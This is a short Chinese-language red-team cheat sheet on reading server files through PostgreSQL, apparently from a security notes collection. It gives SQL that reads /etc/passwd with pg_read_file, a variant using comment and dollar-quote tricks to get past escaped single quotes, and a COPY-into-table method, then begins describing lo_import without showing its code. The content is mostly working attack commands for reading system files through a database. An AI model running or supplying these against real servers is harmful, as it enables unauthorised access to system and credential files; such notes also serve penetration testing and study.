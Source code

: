 
## PostgreSQL 读文件

**方法1 pg_read_file**

```sql
-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/15.png)

**方法2**

```sql
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/8.png)

**方法3 lo_import**

lo_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。
